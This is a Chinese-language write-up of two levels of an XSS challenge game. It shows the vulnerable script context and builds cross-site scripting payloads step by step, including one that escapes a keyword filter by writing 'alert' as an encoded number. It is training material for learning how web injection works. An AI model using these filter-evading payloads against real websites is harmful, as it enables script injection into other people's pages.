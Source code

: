 ```html
```

### Level 8

**思路**  
先查看源码，分析下注入点：
```html
<html>
<body>
<script src="analytics.js"></script>
Get popup within sudo.co.il context.

<p>
your cool xss
</p>

<script>
b = 1
if ( b == 2 ){ a = "your_payload" };

</script>

</body>
</html>
```
发现注入点在`<script>`标签中，但是这个分支无法进入。因此，首先要闭合这个分支，然后调用`alert()`或`confirm()`来弹窗。
尝试如下代码注入:
```html
"}; alert(1); //
```
结果没有弹窗，再查看页面源码，如下：
```html
<script>
b = 1
if ( b == 2 ){ a = ""}; Alert(1); //" };

</script>
```
发现`alert()`被替换成`Alert()`。再尝试`eval()`和`confirm()`，发现都被执行了相同的处理。因此，不能直接调用JS函数。
这里可以尝试[Javascript的toString和parseInt转换](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Object/toString).
还可以参考[XSS Cheet Sheet](https://cloud.tencent.com/developer/article/1675968). 代码如下：
```html
"}; top[8680439..toString(30)](document.domain); //
```

### Level 8.1

**思路**  
这道题和上一道比较类似，先直接用上道题的payload尝试一下，无法弹窗。检查下页面源代码：
```html
<script>
b = 1
if ( b == 2 ){
  a = ""}; top[8680439..toString(30)](document.domain); //"
}

</script>
```
发现这次`if`分之有换行，因此无法闭合大括号，考虑构造一个`else`分支来执行注入代码，如下：
```html
"} else { top[8680439..toString(30)](document.domain); //
```
成功弹窗！
